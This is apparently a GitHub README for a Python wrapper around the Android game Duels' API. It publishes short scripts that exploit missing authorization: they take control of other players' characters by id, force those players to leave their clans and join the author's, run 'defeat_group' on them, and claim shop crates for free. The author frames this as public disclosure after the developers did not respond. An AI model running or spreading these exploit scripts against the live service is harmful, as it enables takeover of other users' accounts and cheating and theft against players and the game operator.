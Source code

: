 A simple wrapper for [Duels](https://play.google.com/store/apps/details?id=com.deemedyainc.duels&hl=en_US) API game on Android 

This game have many issue 

Example code from game.py
```
from duels_api import User
import cfg

me = User(cfg.my_id)
print(me)

members = me.get_self_clan_members()
for player in members:
    print(player)
```

The main vulnerability of this game is that you can control the character of any player knowing only his id

With this code u can add ANY player to you clan and defeat all players from him ranked group
```
me = User(cfg.my_id)
print(me)

members = me.search_clans()
for player in members:
    player.leave_clan()
    player.join_clan(me.clan_id)
    
    player.defeat_group()
```

Also you can take any crate from shop absolutely free

```
me = User(cfg.my_id)
print(me)
me.get_special_crate()
```


I already wrote to the developers of this game but they didn’t respond, so I decided to share this code. Maybe after that they will pay attention to these problems.
